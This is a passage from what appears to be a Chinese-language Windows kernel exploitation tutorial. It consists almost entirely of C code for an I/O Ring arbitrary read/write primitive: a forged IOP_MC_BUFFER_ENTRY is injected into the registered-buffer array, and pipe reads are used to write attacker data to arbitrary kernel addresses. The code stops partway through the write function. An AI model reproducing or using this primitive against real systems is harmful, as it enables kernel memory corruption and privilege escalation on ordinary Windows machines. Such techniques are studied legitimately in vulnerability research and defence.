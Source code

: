 ```
        ret = cqe.ResultCode;
        goto done;
    }
 
    if (0 == ReadFile(hOutPipe, pReadBuffer, ulReadLen, NULL, NULL))
    {
        ret = GetLastError();
        goto done;
    }
 
    ret = 0;
 
done:
    if (NULL != pMcBufferEntry)
    {
        VirtualFree(pMcBufferEntry, sizeof(IOP_MC_BUFFER_ENTRY), MEM_RELEASE);
    }
    return ret;
}
```  
####   
#### 任意写  
  
  
先将需要写的数据写入到管道中，在设置好WriteAddr和WriteLen，使用BuildIoRingReadFile将数据写入到WriteAddr处。  
```
int ioring_write(PULONG64 pRegisterBuffers, ULONG64 pWriteAddr, PVOID pWriteBuffer, ULONG ulWriteLen)
{
    int ret = -1;
    PIOP_MC_BUFFER_ENTRY pMcBufferEntry = NULL;
    IORING_HANDLE_REF reqFile = IoRingHandleRefFromHandle(hInPipeClient);
    IORING_BUFFER_REF reqBuffer = IoRingBufferRefFromIndexAndOffset(0, 0);
    IORING_CQE cqe = { 0 };
 
    if (0 == WriteFile(hInPipe, pWriteBuffer, ulWriteLen, NULL, NULL))
    {
        ret = GetLastError();
        goto done;
    }
 
    pMcBufferEntry = VirtualAlloc(NULL, sizeof(IOP_MC_BUFFER_ENTRY), MEM_COMMIT, PAGE_READWRITE);
 
    if (NULL == pMcBufferEntry)
    {
        ret = GetLastError();
        goto done;
    }
 
    pMcBufferEntry->Address = pWriteAddr;
    pMcBufferEntry->Length = ulWriteLen;
    pMcBufferEntry->Type = 0xc02;
    pMcBufferEntry->Size = 0x80;
    pMcBufferEntry->AccessMode = 1;
    pMcBufferEntry->ReferenceCount = 1;
 
    pRegisterBuffers[0] = pMcBufferEntry;
 
    ret = BuildIoRingReadFile(hIoRing, reqFile, reqBuffer, ulWriteLen, 0, NULL, IOSQE_FLAGS_NONE);
 
    if (0 != ret)
    {
        goto done;
    }
```